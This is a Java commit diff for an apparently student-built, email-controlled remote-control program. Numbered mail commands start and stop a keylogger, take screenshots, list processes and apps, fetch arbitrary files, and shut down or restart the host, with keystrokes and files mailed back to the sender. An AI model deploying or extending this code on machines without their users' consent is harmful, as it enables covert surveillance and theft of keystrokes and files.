

add server response

diff --git a/src/main/java/com/example/project/server/sendResponse.java b/src/main/java/com/example/project/server/sendResponse.java
@@ -2,12 +2,14 @@ package com.example.project.server;
 
 import com.example.project.features.getfile.GetFile;
 import com.example.project.features.keylogger.KeyLog;
+import com.example.project.features.list.ListApp;
 import com.example.project.features.list.ListPrc;
 import com.example.project.features.power.SRS;
 import com.example.project.features.screenshot.Screenshot;
 import com.example.project.mail.sendMail;
 
 import java.io.File;
+import java.io.FileWriter;
 import java.io.IOException;
 
 public class sendResponse extends Thread{
@@ -16,10 +18,16 @@ public class sendResponse extends Thread{
     boolean isKeylogTurnOn = false;
     String keylogText = "";
     int index = 0;
+    String key;
+
+
     private String getMail(String mail){
         return mail.substring(mail.indexOf('<')+1,mail.indexOf('>'));
     }
 
+    public sendResponse(String key){
+        this.key = key;
+    }
     KeyLog kl = new KeyLog();
     @Override
     public void run() {
@@ -27,24 +35,55 @@ public class sendResponse extends Thread{
             return;
         }
         while (index<Server.reqList.size()){
-            switch (Server.reqList.get(index).charAt(0)){
+            switch ((Server.reqList.get(index)+" ").substring(0,2)){
                 //start keylog
-                case '1': {
+                case "0 ": {
+                    ListApp la = new ListApp();
+                    File appList = null;
+                    try {
+                        appList = la.run();
+                    } catch (IOException e) {
+                        throw new RuntimeException(e);
+                    }
+                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 0");
+                    sm.send(appList);
+                    break;
+                }
+                case "1 ": {
                     kl.start();
+                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 1");
+                    sm.sendContent("Successful");
                     System.out.println(1);
                     break;
                 }
                 //end keylog
-                case '2': {
+                case "2 ": {
                     String text = kl.end();
                     System.out.println(text);
-                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,"Keylog Response: ");
-                    sm.sendContent(text);
+                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 2");
+                    File file = new File("keylog.txt");
+                    try {
+                        file.createNewFile();
+                    } catch (IOException e) {
+                        throw new RuntimeException(e);
+                    }
+                    FileWriter fw = null;
+                    try {
+                        fw = new FileWriter("keylog.txt");
+                    } catch (IOException e) {
+                        throw new RuntimeException(e);
+                    }
+                    try {
+                        fw.write(text);
+                    } catch (IOException e) {
+                        throw new RuntimeException(e);
+                    }
+                    sm.send(file);
                     System.out.println(2);
                     break;
                 }
                 //list app
-                case '3': {
+                case "3 ": {
                     ListPrc la = new ListPrc();
                     File file;
                     try {
@@ -52,47 +91,55 @@ public class sendResponse extends Thread{
                     } catch (IOException e) {
                         throw new RuntimeException(e);
                     }
-                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,"Show Process Response: ");
+                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 3");
                     sm.send(file);
                     System.out.println(3);
                     break;
                 }
                 //screenshot
-                case '4': {
+                case "4 ": {
                     Screenshot sc = new Screenshot();
                     File file;
                     file = sc.takeScreenShot();
-                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,"Screenshot Response: ");
+                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 4");
                     sm.send(file);
                     System.out.println(4);
                     break;
                 }
                 //shutdown
-                case '5': {
+                case "5 ": {
+                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 5");
+                    sm.sendContent("Successful");
                     SRS.shutdown();
                     break;
                 }
                 //restart
-                case '6': {
+                case "6 ": {
+                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 6");
+                    sm.sendContent("Successful");
                     SRS.restart();
                     break;
                 }
                 //logout
-                case '7': {
+                case "7 ": {
+                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 7");
+                    sm.sendContent("Successful");
                     SRS.logout();
                     break;
                 }
                 //sleep
-                case '8': {
+                case "8 ": {
+                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 8");
+                    sm.sendContent("Successful");
                     SRS.sleep();
                     break;
                 }
                 //getfile
-                case '9': {
+                case "9 ": {
                     GetFile gf = new GetFile();
                     if (Server.reqList.get(index).length()<=2){
                         String text = gf.listDrive();
-                        sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,"Choose disk to get file: ");
+                        sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 9");
                         sm.sendContent(text);
                     }
                     else {
@@ -100,16 +147,16 @@ public class sendResponse extends Thread{
                         File file = new File(path);
                         if (file.isDirectory()){
                             String text = gf.listFile(file.getAbsolutePath());
-                            sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,"Choose folder to get file: ");
+                            sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 9");
                             sm.sendContent(text);
                         }
                         else {
                             if (file.exists()){
-                                sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,"Getfile Response: ");
+                                sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 9");
                                 sm.send(file);
                             }
                             else{
-                                sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,"Getfile Response: ");
+                                sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 9");
                                 sm.sendContent("File do not exist");
                             }
                         }
@@ -117,7 +164,7 @@ public class sendResponse extends Thread{
                     break;
                 }
                 default: {
-                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,"404 Response: ");
+                    sendMail sm = new sendMail(getMail(Server.mailList.get(index)),DEFAULT_MAIL,DEFAULT_PASSWORD,key+" 404");
                     sm.sendContent("Wrong Request");
                     System.out.println(5);
                     break;

diff --git a/src/main/java/com/example/project/server/Server.java b/src/main/java/com/example/project/server/Server.java
@@ -1,17 +1,12 @@
 package com.example.project.server;
 
-
-import com.example.project.features.getfile.GetFile;
-import com.example.project.features.list.ListPrc;
-import com.example.project.features.list.ListApp;
-
 import java.io.File;
 import java.io.IOException;
 import java.util.ArrayList;
 import java.util.Random;
 
 public class Server {
-    private String key = keyGenerator();
+    private final String key = keyGenerator();
     static ArrayList<String> reqList = new ArrayList<String>();
     static ArrayList<String> mailList = new ArrayList<String>();
 
@@ -23,15 +18,12 @@ public class Server {
         }
         return s;
     }
-    public void Server(){
-
-    }
     public String getKey(){
         return key;
     }
     public void run(){
         getRequest gr = new getRequest(this.key);
-        sendResponse sr = new sendResponse();
+        sendResponse sr = new sendResponse(this.key);
 
         System.out.println("CODE: " + key);
         while (true){

diff --git a/src/main/java/module-info.java b/src/main/java/module-info.java
@@ -6,7 +6,6 @@ module com.example.projectremovecontrol {
     requires org.jsoup;
     requires java.sql;
     requires com.github.kwhat.jnativehook;
-    requires com4j;
 
 
     opens com.example.project to javafx.fxml;
